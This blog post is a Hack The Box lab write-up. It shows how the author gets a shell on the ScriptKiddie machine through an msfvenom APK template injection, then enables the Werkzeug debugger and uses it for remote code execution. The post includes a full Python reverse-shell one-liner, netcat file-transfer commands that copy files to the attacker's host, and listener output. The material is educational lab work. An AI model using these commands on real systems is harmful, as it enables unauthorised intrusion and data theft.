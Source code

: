 ```yaml
---
title: "HTB Writeup 1: Werkzeug"
date: 2020-03-18T07:56:03+00:00
# weight: 1
# aliases: ["/first"]
tags: ["hack the box"]
author: Nate
# author: ["Me", "You"] # multiple authors
showToc: false
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "A completely unnecessary hack."
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
searchHidden: false
cover:
    image: "https://raw.githubusercontent.com/nahberry/blog.dev.repo/main/resources/Images/htblogo-yellow.jpg" # image path/url
    alt: "header" # alt text
    caption: "<text>" # display caption under cover
    relative: true # when using page bundles set this to true
    hidden: false # only hide on current single page

---
```


### Hack The Box
### Messing with the Werkzeug Vulnerability in ScriptKiddie

> As stated in the description, this is a very unnecessary hack.
However, I wanted to test out the Werkzeug vulnerability and the
ScriptKiddie box allowed me to do so without a lot of setup. This writeup
will show you how to get the user flag, but after that it simply details
how to enable the Werkzeug debugger vulnerability and exploit it.  
All just for fun!  

### Background:

**Werkzeug**  

*A comprehensive WSGI web application library. It began as a simple collection of various utilities for WSGI applications and has become one of the most advanced WSGI utility libraries.*  

* Werkzeug comes with an intuitive debugger console that accepts Python scripts.  
the issue arises when debugging is enabled in a production environment.  
When the debugger console is available, so is the potential to put down a Python shell.  


### Scanning the box

We're starting off with a fairly simple Nmap scan for this one:  
`nmap -A 10.10.10.226`  

Here's the output:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
```

  This is what initially sent me down the Werkzeug path. Being that this is and easy
capture the flag box. It would make sense that this is the vulnerability they
added...but that's not the case!  

Since it's running a web application though, we should check out what they've built.

### Reverse shell  

  The site has a few features built in like running an Nmap scan or building a reverse shell
payload (guess that's why this one is titled ScriptKiddie). The reverse shell feature has
an option to upload a template file. This is where things get fun.

* We can use **msvenom** to create a reverse shell pretty quickly.
It looks like the site accepts a few different file types based on operating system.
Let's select Android since that's definitely a .apk file.

`msfconsole > use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`  

Using that template, set the LHOST and LPORT to your local information.
and set the RHOST and RPORT to the ScriptKiddie box information.

annnnnd "exploit"

Now, before we do anything with this file let's set up a netcat listener on our machine:  

`nc -nlvp <port>`

Head back to the site and select the .apk file you just generated and upload it.
Don't forget to type in your IP on the host box and select Android from the dropdown menu.  
Upload your file and head back to your listener!

```  

  └─# nc -nlvp 4444           
      listening on [any] 4444 ...
      connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 35962

```

### Capture the flag!

  We have a shell now! (Well sort of). Doesn't seem to be interactive yet.
Python comes with a great module called Pseudo-terminal Utilities.
We can use this to our advantaged to spawn a bash shell and interact with the machine.

`python3 -c "import pty;pty.spawn('/bin/bash')"`  

If nothing happens at first try just hitting enter or waiting a minute...it is Python...  

You should see an interactive terminal now under the user 'kid.'  

kid@scriptkiddie:~/html$  

Snoop around for a bit and you should find the user.txt flag!  

### On to learn about the Werkzeug Debugger

> There's still a root flag to find, but I'll leave that to you. There are
plenty of other writeups for that if you wish to use one.

  Digging around in the directory reveals that we have access
to the "app.py" file. This is the Python script that launches the web app.  
Let's see what we can do with this.  

**Step 1 - Get the web app to run in debug mode**  

* Being able to edit it in vim is highly unlikely through a remote shell connection.
The lack of key mapping would make that nearly impossible. We should be able to retrieve the file though.  

* For this let's set up another netcat listener on our machine for a file transfer.
Here's the command: nc -l -p <port to listen on> > <file>

`nc -l -p 1234 > app.py`

* Go back to the shell you have open on the target machine and start a netcat transfer
from there. Here's the command: nc -w 3 <IP for receiving machine> < <file>

`nc -w 3 10.10.14.14 1234 < app.py`

Once you've verified that you have the file, delete it from the target machine.
"rm app.py" should do just fine.  

* Now we can edit the file on our machine. Personally I find it's easier just to load it
in vim since we're already in a console but feel free to use anything you like.

* From looking at the Werkzeug documentation it seems like we can enable debugging by adding
a few parameters to the app.run() function:

 ```
 if __name__ = '__main__':
			app.run(host=os.getenv('IP', '0.0.0.0'),
			port=int(os.getenv('PORT', 1234)),
			debug=True)
 ```

 *Here I set the port to 1234 because it's likely that the Flask service is already running
 on port 5000*  

 * Netcat the file back over to the target machine and start it up!

```

kid@scriptkiddie:~/html$ python3 app.py
python3 app.py
* Serving Flask app "app" (lazy loading)
* Environment: production
WARNING: This is a development server. Do not use it in a production deployment.
Use a production WSGI server instead.
* Debug mode: on
* Running on http://0.0.0.0:1234/ (Press CTRL+C to quit)
* Restarting with stat
* Debugger is active!
* Debugger PIN: 296-961-101

 ```
* Yes! The web app is now running in debug mode, and we have a debugger pin!

**Step 2 - Drop in a reverse shell through the console**

* Navigate to http://10.10.10.226:1234/console to get to the debugger. Enter the pin to
log in.

* The goal is to exploit the vulnerability in the debugger that allows us to establish a reverse shell. Since the console allows for Python scripts, this is fairly simple.

*Pentest Monkey has a cheat sheet for this if you want to stick to the Script Kiddie way of life.*  

[Reverse Shell Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

Since the console already knows that we're running Python, remove the "python -c" from the beginning as well as the quotes. Then add the IP and port of your machine.

* Before you hit Enter, make sure to set up a netcat listener on the port you used in the script!

**There we have it! We have officially exploited the Werkzeug vulnerability and established a**
**reverse shell connection. However, the Werkzeug app isn't running on an account with root access, so still no root flag...but hey, it was fun manipulating the system!**


### References:

**CVE-2018-14649**
https://nvd.nist.gov/vuln/detail/CVE-2018-14649

**Werkzeug Debugging**
https://werkzeug.palletsprojects.com/en/1.0.x/debug/
